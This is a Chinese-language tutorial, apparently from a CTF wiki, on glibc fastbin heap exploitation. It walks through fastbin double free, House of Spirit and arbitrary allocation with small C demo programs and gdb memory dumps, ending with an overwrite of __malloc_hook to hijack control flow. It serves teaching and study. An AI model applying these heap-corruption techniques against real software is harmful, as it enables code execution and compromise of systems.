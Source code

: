 fastbin attack
==============

介绍
----

fastbin attack 是一类漏洞的利用方法，是指所有基于 fastbin 机制的漏洞利用方法。这类利用的前提是：

-  存在堆溢出、use-after-free等能控制chunk内容的漏洞
-  漏洞发生于fastbin的chunk中

如果细分的话，可以做如下的分类：

-  fastbin double free
-  House of Spirit
-  arbitrary alloc

原理
----

fastbin attack 存在的原因在于 fastbin 是使用单链表来维护释放的堆块的，并且由 fastbin 管理的 chunk 即使被释放其 next_chunk 的 pre_inuse 位也不会被置为空。 我们来看一下 fastbin 是怎样管理空闲 chunk 的。

::

    int main(void)
    {
        void *chunk1,*chunk2,*chunk3;
        chunk1=malloc(0x30);
        chunk2=malloc(0x30);
        chunk3=malloc(0x30);
        //进行释放
        free(chunk1);
        free(chunk2);
        free(chunk3);
        return 0;
    }

释放前

::

    0x602000:   0x0000000000000000  0x0000000000000041 <=== chunk1
    0x602010:   0x0000000000000000  0x0000000000000000
    0x602020:   0x0000000000000000  0x0000000000000000
    0x602030:   0x0000000000000000  0x0000000000000000
    0x602040:   0x0000000000000000  0x0000000000000041 <=== chunk2
    0x602050:   0x0000000000000000  0x0000000000000000
    0x602060:   0x0000000000000000  0x0000000000000000
    0x602070:   0x0000000000000000  0x0000000000000000
    0x602080:   0x0000000000000000  0x0000000000000041 <=== chunk3
    0x602090:   0x0000000000000000  0x0000000000000000
    0x6020a0:   0x0000000000000000  0x0000000000000000
    0x6020b0:   0x0000000000000000  0x0000000000000000
    0x6020c0:   0x0000000000000000  0x0000000000020f41 <=== top chunk

执行三个free进行释放后

::

    0x602000:   0x0000000000000000  0x0000000000000041 <=== chunk1
    0x602010:   0x0000000000000000  0x0000000000000000
    0x602020:   0x0000000000000000  0x0000000000000000
    0x602030:   0x0000000000000000  0x0000000000000000
    0x602040:   0x0000000000000000  0x0000000000000041 <=== chunk2
    0x602050:   0x0000000000602000  0x0000000000000000
    0x602060:   0x0000000000000000  0x0000000000000000
    0x602070:   0x0000000000000000  0x0000000000000000
    0x602080:   0x0000000000000000  0x0000000000000041 <=== chunk3
    0x602090:   0x0000000000602040  0x0000000000000000
    0x6020a0:   0x0000000000000000  0x0000000000000000
    0x6020b0:   0x0000000000000000  0x0000000000000000
    0x6020c0:   0x0000000000000000  0x0000000000020f41 <=== top chunk

此时位于main_arena中的 fastbin 链表中已经储存了指向chunk3的指针，并且chunk3、2、1构成了一个单链表

::

    Fastbins[idx=2, size=0x30,ptr=0x602080]
    ===>Chunk(fd=0x602040, size=0x40, flags=PREV_INUSE)
    ===>Chunk(fd=0x602000, size=0x40, flags=PREV_INUSE)
    ===>Chunk(fd=0x000000, size=0x40, flags=PREV_INUSE) 

我们可以使用如下的图片来表示这一点 |image0|

fastbin double free
-------------------

.. 介绍-1:

介绍
~~~~

fastbin double free 是指 fastbin 的 chunk 可以被多次释放并多次的存在于fastbin链表中。这样导致的后果是多次分配可以从 fastbin
链表中取出同一个堆块，相当于多个指针指向同一个堆块，结合堆块的数据内容可以实现类似于类型混淆(type confused)的效果。

fastbin double free之所以能够成功的实现有两部分的原因

1. fastbin 的堆块被释放后next_chunk的pre_inuse位不会被清空
2. fastbin 在执行free的时候仅验证了main_arena直接指向的块

::

    /* Another simple check: make sure the top of the bin is not the
           record we are going to add (i.e., double free).  */
        if (__builtin_expect (old == p, 0))
          {
            errstr = "double free or corruption (fasttop)";
            goto errout;
    }

演示
~~~~

下面的示例程序说明了这一点，当我们试图执行以下代码时

::

    int main(void)
    {
        void *chunk1,*chunk2,*chunk3;
        chunk1=malloc(0x10);
        chunk2=malloc(0x10);
        
        free(chunk1);
        free(chunk1);
        return 0;
    }

如果你执行这个程序，不出意外的话会得到如下的结果，这正是_int_free函数检测到了fastbin的double free。

::

    *** Error in `./tst': double free or corruption (fasttop): 0x0000000002200010 ***
    ======= Backtrace: =========
    /lib/x86_64-linux-gnu/libc.so.6(+0x777e5)[0x7fbb7a36c7e5]
    /lib/x86_64-linux-gnu/libc.so.6(+0x8037a)[0x7fbb7a37537a]
    /lib/x86_64-linux-gnu/libc.so.6(cfree+0x4c)[0x7fbb7a37953c]
    ./tst[0x4005a2]
    /lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xf0)[0x7fbb7a315830]
    ./tst[0x400499]
    ======= Memory map: ========
    00400000-00401000 r-xp 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
    00600000-00601000 r--p 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
    00601000-00602000 rw-p 00001000 08:01 1052570                            /home/Ox9A82/tst/tst
    02200000-02221000 rw-p 00000000 00:00 0                                  [heap]
    7fbb74000000-7fbb74021000 rw-p 00000000 00:00 0 
    7fbb74021000-7fbb78000000 ---p 00000000 00:00 0 
    7fbb7a0df000-7fbb7a0f5000 r-xp 00000000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
    7fbb7a0f5000-7fbb7a2f4000 ---p 00016000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
    7fbb7a2f4000-7fbb7a2f5000 rw-p 00015000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
    7fbb7a2f5000-7fbb7a4b5000 r-xp 00000000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7fbb7a4b5000-7fbb7a6b5000 ---p 001c0000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7fbb7a6b5000-7fbb7a6b9000 r--p 001c0000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7fbb7a6b9000-7fbb7a6bb000 rw-p 001c4000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7fbb7a6bb000-7fbb7a6bf000 rw-p 00000000 00:00 0 
    7fbb7a6bf000-7fbb7a6e5000 r-xp 00000000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
    7fbb7a8c7000-7fbb7a8ca000 rw-p 00000000 00:00 0 
    7fbb7a8e1000-7fbb7a8e4000 rw-p 00000000 00:00 0 
    7fbb7a8e4000-7fbb7a8e5000 r--p 00025000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
    7fbb7a8e5000-7fbb7a8e6000 rw-p 00026000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
    7fbb7a8e6000-7fbb7a8e7000 rw-p 00000000 00:00 0 
    7ffcd2f93000-7ffcd2fb4000 rw-p 00000000 00:00 0                          [stack]
    7ffcd2fc8000-7ffcd2fca000 r--p 00000000 00:00 0                          [vvar]
    7ffcd2fca000-7ffcd2fcc000 r-xp 00000000 00:00 0                          [vdso]
    ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
    已放弃 (核心已转储)

如果我们在chunk1释放后，再释放chunk2，这样main_arena就指向chunk2而不是chunk1了，此时我们再去释放chunk1就不再会被检测到。

::

    int main(void)
    {
        void *chunk1,*chunk2,*chunk3;
        chunk1=malloc(0x10);
        chunk2=malloc(0x10);
        
        free(chunk1);
        free(chunk2);
        free(chunk1);
        return 0;
    }

第一次释放\ ``free(chunk1)``

|image1|

第二次释放\ ``free(chunk2)``

|image2|

第三次释放\ ``free(chunk1)``

|image3|

注意因为chunk1被再次释放因此其 fd 值不再为0而是指向chunk2，这时如果我们可以控制chunk1的内容，便可以写入其fd指针从而实现在我们想要的任意地址分配fastbin块。
下面这个示例演示了这一点，首先跟前面一样构造main_arena=>chunk1=>chun2=>chunk1的链表。之后第一次调用malloc返回chunk1之后修改chunk1的fd指针指向bss段上的bss_chunk，之后我们可以看到fastbin会把堆块分配到这里。

::

    typedef struct _chunk
    {
        long long pre_size;
        long long size;
        long long fd;
        long long bk;  
    } CHUNK,*PCHUNK;

    CHUNK bss_chunk;

    int main(void)
    {
        void *chunk1,*chunk2,*chunk3;
        void *chunk_a,*chunk_b;
        
        bss_chunk.size=0x21;
        chunk1=malloc(0x10);
        chunk2=malloc(0x10);
        
        free(chunk1);
        free(chunk2);
        free(chunk1);
        
        chunk_a=malloc(0x10);
        *(long long *)chunk_a=&bss_chunk;
        malloc(0x10);
        malloc(0x10);
        chunk_b=malloc(0x10);
        printf("%p",chunk_b);
        return 0;
    }

在我的系统上chunk_b输出的值会是0x601090，这个值位于bss段中正是我们之前设置的\ ``CHUNK bss_chunk``

::

    Start              End                Offset             Perm Path
    0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/Ox9A82/tst/tst
    0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/Ox9A82/tst/tst
    0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/Ox9A82/tst/tst
    0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]

    0x601080 <bss_chunk>:   0x0000000000000000  0x0000000000000021
    0x601090 <bss_chunk+16>:0x0000000000000000  0x0000000000000000
    0x6010a0:               0x0000000000000000  0x0000000000000000
    0x6010b0:               0x0000000000000000  0x0000000000000000
    0x6010c0:               0x0000000000000000  0x0000000000000000

值得注意的是我们在main函数的第一步就进行了\ ``bss_chunk.size=0x21;``\ 的操作，这是因为_int_malloc会对欲分配位置的size域进行验证，如果其size与当前fastbin链表应有size不符就会抛出异常。

::

    *** Error in `./tst': malloc(): memory corruption (fast): 0x0000000000601090 ***
    ======= Backtrace: =========
    /lib/x86_64-linux-gnu/libc.so.6(+0x777e5)[0x7f8f9deb27e5]
    /lib/x86_64-linux-gnu/libc.so.6(+0x82651)[0x7f8f9debd651]
    /lib/x86_64-linux-gnu/libc.so.6(__libc_malloc+0x54)[0x7f8f9debf184]
    ./tst[0x400636]
    /lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xf0)[0x7f8f9de5b830]
    ./tst[0x4004e9]
    ======= Memory map: ========
    00400000-00401000 r-xp 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
    00600000-00601000 r--p 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
    00601000-00602000 rw-p 00001000 08:01 1052570                            /home/Ox9A82/tst/tst
    00bc4000-00be5000 rw-p 00000000 00:00 0                                  [heap]
    7f8f98000000-7f8f98021000 rw-p 00000000 00:00 0 
    7f8f98021000-7f8f9c000000 ---p 00000000 00:00 0 
    7f8f9dc25000-7f8f9dc3b000 r-xp 00000000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
    7f8f9dc3b000-7f8f9de3a000 ---p 00016000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
    7f8f9de3a000-7f8f9de3b000 rw-p 00015000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
    7f8f9de3b000-7f8f9dffb000 r-xp 00000000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7f8f9dffb000-7f8f9e1fb000 ---p 001c0000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7f8f9e1fb000-7f8f9e1ff000 r--p 001c0000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7f8f9e1ff000-7f8f9e201000 rw-p 001c4000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7f8f9e201000-7f8f9e205000 rw-p 00000000 00:00 0 
    7f8f9e205000-7f8f9e22b000 r-xp 00000000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
    7f8f9e40d000-7f8f9e410000 rw-p 00000000 00:00 0 
    7f8f9e427000-7f8f9e42a000 rw-p 00000000 00:00 0 
    7f8f9e42a000-7f8f9e42b000 r--p 00025000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
    7f8f9e42b000-7f8f9e42c000 rw-p 00026000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
    7f8f9e42c000-7f8f9e42d000 rw-p 00000000 00:00 0 
    7fff71a94000-7fff71ab5000 rw-p 00000000 00:00 0                          [stack]
    7fff71bd9000-7fff71bdb000 r--p 00000000 00:00 0                          [vvar]
    7fff71bdb000-7fff71bdd000 r-xp 00000000 00:00 0                          [vdso]
    ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
    已放弃 (核心已转储)

\_int_malloc中的校验如下

::

    if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
        {
          errstr = "malloc(): memory corruption (fast)";
        errout:
          malloc_printerr (check_action, errstr, chunk2mem (victim));
          return NULL;
    }

小总结
~~~~~~

通过 fastbin double free 我们可以使用多个指针控制同一个堆块，这可以用于篡改一些堆块中的关键数据域或者是实现类似于类型混淆的效果。
如果更进一步修改fd指针，则能够实现任意地址分配堆块的效果(首先要通过验证)，这就相当于任意地址写任意值的效果。

House Of Spirit
---------------

.. 介绍-2:

介绍
~~~~

House of Spirit 是 House of XX 的一种，House of XX 是 2004 年左右的一篇关于 Linux 堆利用的技术文章中提出一系列利用方法。 HOS 可以使得 fastbin
堆块分配到栈中，从而实现控制栈中的一些关键数据，比如返回地址等。

如果你已经理解了前文所讲的fastbin double free，那么相信你理解HOS就已经不成问题了，其实它们的本质都在于 fastbin 链表是使用当前 chunk 的 fd 指针指向下一个chunk构成的。 HOS 的核心同样在于劫持 fastbin
链表中 chunk 的 fd 指针，把 fd 指针指向我们想要分配的栈上，实现控制栈中数据。

.. 演示-1:

演示
~~~~

这次我们把fake_chunk置于栈中称为stack_chunk，同时劫持了fastbin链表中chunk的fd值，通过把这个fd值指向stack_chunk就可以实现在栈中分配fastbin chunk。

::

    typedef struct _chunk
    {
        long long pre_size;
        long long size;
        long long fd;
        long long bk;  
    } CHUNK,*PCHUNK;

    int main(void)
    {
        CHUNK stack_chunk;
        
        void *chunk1;
        void *chunk_a;
        
        stack_chunk.size=0x21;
        chunk1=malloc(0x10);
        
        free(chunk1);
        
        *(long long *)chunk1=&stack_chunk;
        malloc(0x10);
        chunk_a=malloc(0x10);
        return 0;
    }

通过gdb调试可以看到我们首先把chunk1的fd指针指向了stack_chunk

::

    0x602000:   0x0000000000000000  0x0000000000000021 <=== chunk1
    0x602010:   0x00007fffffffde60  0x0000000000000000
    0x602020:   0x0000000000000000  0x0000000000020fe1 <=== top chunk

之后第一次malloc使得fastbin链表指向了stack_chunk，这意味着下一次分配会使用stack_chunk的内存进行

::

    0x7ffff7dd1b20 <main_arena>:    0x0000000000000000 <=== unsorted bin
    0x7ffff7dd1b28 <main_arena+8>:  0x00007fffffffde60 <=== fastbin[0]
    0x7ffff7dd1b30 <main_arena+16>: 0x0000000000000000  

最终第二次malloc返回值为0x00007fffffffde70也就是stack_chunk

::

       0x400629 <main+83>        call   0x4004c0 <malloc@plt>
     → 0x40062e <main+88>        mov    QWORD PTR [rbp-0x38], rax
       $rax   : 0x00007fffffffde70
       
    0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/Ox9A82/tst/tst
    0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/Ox9A82/tst/tst
    0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/Ox9A82/tst/tst
    0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]
    0x00007ffff7a0d000 0x00007ffff7bcd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7bcd000 0x00007ffff7dcd000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7dcd000 0x00007ffff7dd1000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7dd1000 0x00007ffff7dd3000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7dd3000 0x00007ffff7dd7000 0x0000000000000000 rw- 
    0x00007ffff7dd7000 0x00007ffff7dfd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
    0x00007ffff7fdb000 0x00007ffff7fde000 0x0000000000000000 rw- 
    0x00007ffff7ff6000 0x00007ffff7ff8000 0x0000000000000000 rw- 
    0x00007ffff7ff8000 0x00007ffff7ffa000 0x0000000000000000 r-- [vvar]
    0x00007ffff7ffa000 0x00007ffff7ffc000 0x0000000000000000 r-x [vdso]
    0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
    0x00007ffff7ffd000 0x00007ffff7ffe000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
    0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw- 
    0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
    0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]

.. 小总结-1:

小总结
~~~~~~

通过HOS我们可以把fastbin chunk分配到栈中，从而控制返回地址等关键数据。要实现这一点我们需要劫持fastbin中chunk的fd域，把它指到栈上，当然同时需要栈上存在有满足条件的size值。

arbitrary alloc
---------------

.. 介绍-3:

介绍
~~~~

arbitrary alloc 其实与 House of Spirit 是完全相同的，唯一的区别是分配的目标不再是栈中。 事实上只要满足目标地址存在合法的size域，我们可以把chunk分配到任意的可写内存中，比如bss、heap、data、stack等等。

大家可能会认为 HOS 与 arbitrary alloc 没有什么区别，因此没有必要分为两类。相信看完下面的一个例子，就会有不一样的想法了。

.. 演示-2:

演示
~~~~

在这个例子，我们使用字节错位来实现直接分配fastbin到\ **\_malloc_hook的位置，相当于覆盖_malloc_hook来控制程序流程。**

::

    int main(void)
    {
        
        
        void *chunk1;
        void *chunk_a;
        
        chunk1=malloc(0x60);
        
        free(chunk1);
        
        *(long long *)chunk1=0x7ffff7dd1b05;
        malloc(0x60);
        chunk_a=malloc(0x60);
        return 0;
    }

这里的0x7ffff7dd1b05是我根据本机的情况得出的值，这个值是怎么获得的呢？首先我们要观察欲写入地址附近是否存在可以字节错位的情况。

::

    0x7ffff7dd1a88 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1a90 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1a98 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1aa0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1aa8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ab0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ab8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ac0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ac8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ad0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ad8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ae0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ae8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1af0 0x60 0x2 0xdd 0xf7 0xff 0x7f 0x0 0x0
    0x7ffff7dd1af8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1b00 0x20 0x2e 0xa9 0xf7 0xff 0x7f 0x0 0x0
    0x7ffff7dd1b08 0x0  0x2a 0xa9 0xf7 0xff 0x7f 0x0 0x0
    0x7ffff7dd1b10 <__malloc_hook>: 0x30    0x28    0xa9    0xf7    0xff    0x7f    0x0 0x0

0x7ffff7dd1b10是我们想要控制的__malloc_hook的地址，于是我们向上寻找是否可以错位出一个合法的size域。因为这个程序是64位的，因此fastbin的范围为32字节到128字节(0x20-0x80)，如下：

::

    //这里的size指用户区域，因此要小2倍SIZE_SZ
    Fastbins[idx=0, size=0x10] 
    Fastbins[idx=1, size=0x20] 
    Fastbins[idx=2, size=0x30] 
    Fastbins[idx=3, size=0x40] 
    Fastbins[idx=4, size=0x50] 
    Fastbins[idx=5, size=0x60] 
    Fastbins[idx=6, size=0x70] 

通过观察发现0x7ffff7dd1af5处可以现实错位构造出一个0x000000000000007f

::

    0x7ffff7dd1af0 0x60 0x2 0xdd 0xf7 0xff 0x7f 0x0 0x0
    0x7ffff7dd1af8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0

    0x7ffff7dd1af5 <_IO_wide_data_0+309>:   0x000000000000007f

因为0x7f在计算fastbin index时，是属于index 5的，即chunk大小为0x70的。

.. code:: c

    ##define fastbin_index(sz)                                                      \
        ((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2)

而其大小又包含了0x10的chunk_header，因此我们选择分配0x60的fastbin，将其加入链表。 最后经过两次分配可以观察到chunk被分配到0x00007ffff7dd1b15，因此我们就可以直接控制__malloc_hook的内容。

::

    0x4005a8 <main+66>        call   0x400450 <malloc@plt>
     →   0x4005ad <main+71>        mov    QWORD PTR [rbp-0x8], rax
     
     $rax   : 0x00007ffff7dd1b15 
     
    0x7ffff7dd1b05 <__memalign_hook+5>: 0xfff7a92a0000007f  0x000000000000007f
    0x7ffff7dd1b15 <__malloc_hook+5>:   0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b25 <main_arena+5>:  0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b35 <main_arena+21>: 0x0000000000000000  0x0000000000000000

.. 小总结-2:

小总结
~~~~~~

虽然arbitrary alloc与HOS的原理是相同的，但是arbitrary alloc在CTF中要比HOS更常出现也更加使用。我们可以利用字节错位等方法来绕过size域的检验，实现任意地址分配chunk，最后的效果也就相当于任意地址写任意值。

.. |image0| image:: /pwn/heap/figure/fastbin_link_list.png
.. |image1| image:: /pwn/heap/figure/fastbin_free_chunk1.png
.. |image2| image:: /pwn/heap/figure/fastbin_free_chunk2.png
.. |image3| image:: /pwn/heap/figure/fastbin_free_chunk3.png
